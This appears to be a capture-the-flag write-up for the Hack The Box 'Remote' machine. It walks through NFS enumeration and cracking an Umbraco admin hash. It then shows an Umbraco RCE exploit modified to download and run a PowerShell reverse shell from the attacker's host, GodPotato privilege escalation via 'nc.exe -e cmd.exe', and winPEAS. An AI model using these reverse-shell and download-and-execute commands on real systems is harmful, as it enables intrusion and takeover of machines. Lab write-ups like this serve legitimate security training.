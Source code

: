```yaml
---
layout: post
title: "Remote"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and scan it with nmap

```bash
rustscan -a 10.129.230.172

21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
111/tcp   open  rpcbind      syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
2049/tcp  open  nfs          syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49677/tcp open  unknown      syn-ack
49678/tcp open  unknown      syn-ack
49679/tcp open  unknown      syn-ack
49680/tcp open  unknown      syn-ack

sudo nmap -sC -sV -p21,80,111,135,445,2049,5985,47001,49664,49665,49666,49677,49678,49679,49680 -oA nmap/remote 10.129.230.172

notable;

21: FTP allows anon login
80: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445: SMB
2049: NFS
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

Let’s visit the web first. Found a page in contacts that has a login form. When trying to login:

![image.png]({{ site.baseurl }}/assets/remote/image.png)

Let’s try sql inject.

```bash
username: 'OR 1=1-- -
```

Does not work. Let’s see what’s in the ftp and smb shares

```bash
ftp 10.129.230.172 21
#emtpy

smbclient -N -L //10.129.230.172
#no null session
```

Let’s enumerate for subdirectories

```bash
gobuster dir -u http://10.129.230.172/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

/contact              (Status: 200) [Size: 7880]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/blog                 (Status: 200) [Size: 5001]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5338]
/product              (Status: 500) [Size: 3420]
/intranet             (Status: 200) [Size: 3313]
/Install              (Status: 302) [Size: 126] [--> /umbraco/]
/people               (Status: 200) [Size: 6739]
/Home                 (Status: 200) [Size: 6703]
/about-us             (Status: 200) [Size: 5451]
/umbraco              (Status: 200) [Size: 4040]
/Products             (Status: 200) [Size: 5338]
/Blog                 (Status: 200) [Size: 5011]
/master               (Status: 500) [Size: 3420]
/Product              (Status: 500) [Size: 3420]
/Contact              (Status: 200) [Size: 7880]
/INSTALL              (Status: 302) [Size: 126] [--> /umbraco/]
/person               (Status: 200) [Size: 2741]
/Master               (Status: 500) [Size: 3420]
/Intranet             (Status: 200) [Size: 3313]
/People               (Status: 200) [Size: 6739]
/Person               (Status: 200) [Size: 2741]
/‎                    (Status: 200) [Size: 6693]
/HOME                 (Status: 200) [Size: 6703]
/BLOG                 (Status: 200) [Size: 5011]
/About-Us             (Status: 200) [Size: 5451]
/1111                 (Status: 200) [Size: 4206]
/CONTACT              (Status: 200) [Size: 7890]
/INTRANET             (Status: 200) [Size: 3323]
/PRODUCTS             (Status: 200) [Size: 5338]
/PRODUCT              (Status: 500) [Size: 3420]
Progress: 23944 / 30001 (79.81%)[ERROR] parse "http://10.129.230.172/error\x1f_log": net/url: invalid control character in URL
/1117                 (Status: 200) [Size: 2750]
/1118                 (Status: 200) [Size: 2752]
/1116                 (Status: 200) [Size: 6739]
/1148                 (Status: 200) [Size: 3313]
P

gobuster dir -u http://10.129.230.172 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Playing around the site we find /blog page and the page parameter might be vulnerable to file inclusion. Let’s test it out with ffuf

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.230.172/blog/?page=FUZZ' -fw 1249

```

Nothing here so far. Let’s see what’s in the NFS share

```bash
showmount -e 10.129.230.172

result:
Export list for 10.129.230.172:
/site_backups (everyone)

#This means we can mount it

mkdir /mnt/remote
sudo mount -t nfs 10.129.230.172:/site_backups /mnt/remote
```

Found username in a sdf (database) file in App_Data

```bash
strings Umbraco.sdf | grep -i password

admin@htb.local

strings Umbraco.sdf | grep -i "admin@htb.local"

We find SHA1 hash
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can test if the hash can be cracked online e.g. crackstation and it’s a common password. We now have the credential of admin. Now we can go back to the web and login. When logged on, we can click on the question mark and it will give us the version of Umbraco (Umbraco version 7.12.4).

Now we can do search for the exploit and try and get a reverse shell. First we verified that umbraco has a RCE vulnerability so we need a windows reverse shell; Invoke-PowerShellTcp.ps1. First copy it to your attack dir and rename it to something simple like rev.ps1 and add the following to the bottom

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.118 -Port 9001
```

Now search for the exploit and save it to the attacking dir and change the following:

```bash
searchsploit umbraco
searchsploit -m 46153.py

Then change the following in the exploit file:
login = "admin@htb.local;
password="baconandcheese";
host = "http://10.129.230.172";
proc.StartInfo.FileName = "poweshell.exe";
string cmd = "IEX (IWR http://10.10.14.118:1234/rev.ps1 -UseBasicParsing)"

IEX(New-Object Net.Webclient).downloadString("http://10.10.14.118:1234/rev.ps1
```

Now start a python server on host and a listening port then execute the script

```bash
python3 -m http.server 1234

ON ANOTHER TAB:
nc -lnvp 9001
```

And now we have a reverse shell:

```bash
whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 

```

SeImpersonatePrivilege is enabled so let’s search up how to exploit that and we find https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070

Now we download GodPotato from https://github.com/BeichenDream/GodPotato/releases, just download this version [GodPotato-NET2.exe](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe)
    

```bash
iwr http://10.10.14.118:1234/GodPotato-NET2.exe -OutFile godpotato.exe

#also trasnfer nc.exe

iwr http://10.10.14.118:1234/nc.exe -OutFile nc.exe

#now start a listening port on attack host
rlwrap nc -lnvp 4040

#Nowe we exploit

.\godpotato.exe -cmd ".\nc.exe -e cmd.exe 10.10.14.118 4040"
```

Now we have nt/authority shell

- mount nfs share
- strings to find password in db
- crackstation
- Invoke-PowerShellTcp.ps1 reverse shell
- god potato

We also check the Windows architecture:

```bash
wmic os get osarchitecture

result:
64-bit    
```

Let’s use winPEAS to enumerate for potential vulnerabilities. First cp winPEASx64.exe to our attack dir and retrieve the executable from our python server from Windows

```bash
iwr http://10.10.14.118:1234/winPEASx64.exe -OutFile winpeas.exe

.\winpeas.exe

result:
**? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:                                                                            RmSvc: GenericExecute (Start/Stop)                                                                                             
    UsoSvc: AllAccess, Start**
```